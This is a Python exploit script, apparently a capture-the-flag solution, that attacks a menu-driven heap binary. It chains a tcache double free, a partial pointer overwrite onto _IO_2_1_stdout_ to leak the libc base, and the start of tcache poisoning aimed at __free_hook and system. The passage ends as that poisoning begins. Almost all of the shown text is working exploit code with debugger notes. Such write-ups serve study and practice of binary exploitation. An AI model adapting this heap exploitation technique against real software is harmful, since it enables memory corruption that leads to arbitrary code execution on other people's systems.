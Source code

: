 ```python


def dd():
    if DEBUG:
        cmd = ""
        cmd += "b *%d\n" % (base + 0x198E)  # call menu_sub
        cmd += "set $a=%d\n" % (base + 0x4080)  # _QWORD *arrPtr[] # x /10xg $a : ptr array
        debug(cmd)


# === Step-1: malloc 8 chunks, full tcache(cnt=7), 1 to unsorted bin
for i in range(8):  # c7: avoid top chunk merging
    add(i, 0xa0, "ILoveC")  # heap chunks: c0, c1, c2, ... c7, top_chunk
for i in range(7):  # 0 ~ 6
    free(i)   # full tcache # tcache(0xb0) cnt=7: c6, c5, ...,c0
edit(6, "B" * 16)  # double free prepare, cover fw/bk of c6, avoid "free(): double free detected in tcache 2"
free(6)  # c6 to unsorted bin
# heap bins: tcache(0xb0) cnt=7: c6, libc addr, trash addr... unsorted: c6


# == Steo-2: leak 2nd byte of c6 fw/bk
B0, B1 = talk(6)
randnum = B0 ^ 0xe0  # 0xe0: lowest Byte of c6'fw/bk
# p &_IO_2_1_stdout_
B1 = randnum ^ B1
stdout_ls2B = b"\xa0" + int(B1 + 0xa + 1).to_bytes(1, "big")  # &_IO_2_1_stdout_ - c6_fw = 0xac0
print("==> B0,B1:", bytes([B0, B1]).hex(), "rand:", hex(randnum), "stdout_ls2B", stdout_ls2B.hex())


# === Step-3: cover c6_fw with &_IO_2_1_stdout_ (only lowest 2B)
cmd(2)  # edit
sla("\n", str(6))  # idx=6
sa("\n", stdout_ls2B)  # cover lowest 2B # verify: &_IO_2_1_stdout_ == c6_fw != c6_bk

# heap bins: tcache(0xb0) cnt=7: c6, &_IO_2_1_stdout_, Corrupted... unsorted: c6
# === Step-4: leak libc_base by changing _flag etc of _IO_2_1_stdout_
add(6, 0xa0, "deadbeef")  # tcache(0xb0) cnt=6: &_IO_2_1_stdout_, Corrupted... # c6_fw=deadbeef, c6_bk=0xa(\n)
cmd(1)  # malloc
sla("\n", str(5))  # idx=5
sla("\n", str(0xa0))  # size=0xa0
sa("\n", p64(0xfbad3887) + p64(0) + p64(0) + p64(0) + b'\x00')  # c5/_IO_2_1_stdout_ : x /10xg 0x00007f055b0446a0
# 0x7f055b0446a0 <_IO_2_1_stdout_>:       0x00000000fbad3887      0x00007f055b044723
# 0x7f055b0446b0 <_IO_2_1_stdout_+16>:    0x00007f055b044723      0x00007f055b044723
# 0x7f055b0446c0 <_IO_2_1_stdout_+32>:    0x00007f055b044723      0x00007f055b044723
leak_addr = l64()
libc_base = leak_addr - 0x1eb980  # cal offset between leak_addr and libc_base (vmmap in gdb)
print("==> leak_addr:", hex(leak_addr), "libc:", hex(libc_base))

# heap bins: tcache(0xb0) cnt=5: Corrupted chunk at 0xfbad2887 unsorted: c6
# === Step-5: recover c6_fw/bk. if not, SIGSEGV occur in Step-6
c6fw = 0x1ebbe0 + libc_base
cmd(2)  # edit
sla("\n", str(6))  # idx=6
sa("\n", p64(c6fw) + p64(c6fw))  # recover c6_fw/bk

# === Step-6: tcache poisoning: UAF
free_hook = libc.symbols["__free_hook"] + libc_base
system_addr = libc.symbols["system"] + libc_base  # puts for local test # system
add(0, 0x20, "c0")  # './ld-2.31.so' stopped with exit code -11 (SIGSEGV) here if without Step-5
add(1, 0x20, "c1")
```